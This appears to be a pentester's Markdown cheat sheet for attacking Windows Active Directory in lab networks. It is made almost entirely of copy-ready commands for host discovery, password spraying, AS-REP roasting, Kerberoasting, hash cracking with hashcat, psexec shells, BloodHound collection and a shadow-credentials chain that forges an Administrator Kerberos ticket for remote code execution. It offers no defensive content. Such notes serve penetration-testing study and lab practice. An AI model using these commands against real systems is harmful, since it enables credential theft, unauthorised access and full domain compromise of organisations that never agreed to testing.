 ### Active Directory

### AD Strategy
1. Start with nmap, to idenftiy the network.
2. Assume Breach strategy
3.    1. Get user, groups, computers

#### How to identify alive hosts in netowrk ?
1. Run nmap ping sweep, Command: `nmap -r -sn 192.168.110.0/24`
2. Run nmap ping sweep, Command: `nmap -r -sP 192.168.110.0/24` 

#### How to identify Domain Controller (DC) ?
1. Most probably a DC would be having open PORTS e.g 53 and **88 (KDC)**, 389, 636 which are not avbl to other Windows machines.
2. If you're in DC network, Command: `nmap -r -v --open -sC -sV -p53,88,389,636 <DC IP>`
3. If above command shows these ports **OPEN** ... You got **DC** !!!

### How to extract the underlying Windows OS via crackmapexec?
1. Command: `proxychains crackmapexec smb -d somedomain.htb -u user -p 'password' -dc-ip 192.168.110.52-55`

### How to know that username/password combination is valid - crakmapexec ?
1. If running follwing crackmapexec command against **DC** gives you **+** symbol, the **creds** are valid.
2. Command:  `proxychains crackmapexec smb -d somedomain.htb -u user -p 'password' -dc-ip 192.168.110.55`

### How to know that username/password combination is valid - kerbrute (password spray) ?
1. Command: `./kerbrute_linux_amd64 passwordspray --dc 192.168.110.55 -d somedomain.htb AD_users.txt 'password'`
2. Command: `./kerbrute_linux_amd64 -d internal.abc.local passwordspray allUsers.txt 'Password100!' --dc 192.168.210.16'`
   
#### Using impacket - To find all the usernames, email address etc?
1. Without username/password command: `proxychains GetADUsers.py somedomain.htb/ -no-pass -dc-ip 192.168.110.55`
2. With user/password of a valid domain user command: `proxychains GetADUsers.py somedomain.htb/ -no-pass -all -dc-ip 192.168.110.55`

#### Using impacket - Authentication Service Response (AS-REP) Roasting?
1. Highly unlikely today, as by default, in **Active Directory**, it is more likely the feature that **enables** this attack is **disabled**.
2. When DC Admin creates a user in DC, he has to explictly check option **Do not require Kerberos Pre-Authentication**.
3. Commamd: `proxychains GetNPUsers.py somedomain.htb/ -dc-ip 192.168.110.55 -usersfile ALL_AD_users.txt -format hashcat`
4. Command: `proxychains GetNPUsers.py somedomain.htb/someuser:'password' -dc-ip 192.168.110.55 -usersfile ALL_AD_users.txt -format hashcat`
5. If above command shows, *User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set*, this means, it doesn't work for this user. 
6. Crack the hashes, by running command: `hashcat -a 0 -m 18200 asrep-roast-hash.txt rockyou.txt`

#### Using impacket - Kerberoasting?
1. To get hashes, run command: `proxychains GetUserSPNs.py somedomain.htb/someuser:'password' -dc-ip 192.168.110.55 -request`
2. Cracking hashes: `hashcat -m 13100 kerberoasting.txt /usr/share/wordlists/rockyou.txt`

#### What to do if you have got valid user/password credentials --- after as-rep/kerb roasting ?
1. Lets assume Kerberoasting got successful, what to do next ?
2. Run cracmapexec, and if shows **Pwn3d!**, this means you can access that particular system.
3. Command: `proxychains crackmapexec smb 192.168.110.52-55 -u http_svc -p 'somepassword'`

#### Listing all the shares - crackmapexec ?
1. Command: `proxychains crackmapexec smb 192.168.110.52 -u http_svc -p 'somepassword' --shares`

#### Accessing that system e.g. we got creds after kerberoasting ?
1. Via psexec, command: `proxychains impacket-psexec somedomain.htb/http_svc:'somepassword'@192.168.110.52`
2. The above command would you give you shell. 

### After shell, use SYSINTERNALS AD Explorer  / Bloodhound
1. Remote Blooudhound from Kali, command: `proxychains bloodhound-python --zip -c all -d somedomain.local -u marcus -p 'Password100!' --dns-tcp -ns <DC IP address>`

### Useful commands - Assume Breach Appraoch - You're inside the DC network with valid user/pass combination
1. **Local vs Domain** - This command tells all the users present in the current system. Command: `net user` or `net user <username>`
3. **Local vs Domain** - This command tells all the users present in all the DC. Command: `net user /domain` or `net user <username>  /domain `

### AD Abuse - AddKeyCredentialLink [pywhisker.py -> gettgtpkinit.py - > getnthash.py -> impacket-lookupsid -> impacket-ticketer -> finally psexec / secretsdump)
1. `proxychains python3 pywhisker.py -d "somedomain.local" -u 'username' -p 'Password100'  --target "COMP-ABC-1$" --action "list"`
2. `proxychains python3 pywhisker.py -d "somedomain.local" -u 'username' -p 'Password100'  --target "COMP-ABC-1$" --action "add" --filename hacker`
3. `proxychains python3 gettgtpkinit.py -cert-pfx "hacker.pfx" -pfx-pass "VSDR4fkJazANDrGfis03" "somedomain.local/COMP-ABC-1\$" out.cache`
4. `proxychains python3 getnthash.py somedomain.local/COMP-ABC-1\$ -key bc39f3e57c5550412fbedd1430c3919f1f25f0a67117517242422029241d1c85`
5. `proxychains impacket-lookupsid somedomain.local/username@192.168.210.10(DC) | grep "Domain SID"`
6. `proxychains impacket-ticketer -nthash 89d0b56874f61ad38bad336a77b8ef2f -domain somedomain.local -domain-sid S-1-5-21-2734290894-461713716-141835440 Administrator -dc-ip 192.168.210.10(DC)`
7. `export KRB5CCNAME=Administrator.ccache`
8. `klist`
9. `impacket-psexec somedomain.local/Administrator@192.168.210.10 -target-ip 192.168.210.11(ADComputer) -dc-ip 192.168.210.10(DC) -no-pass -k`
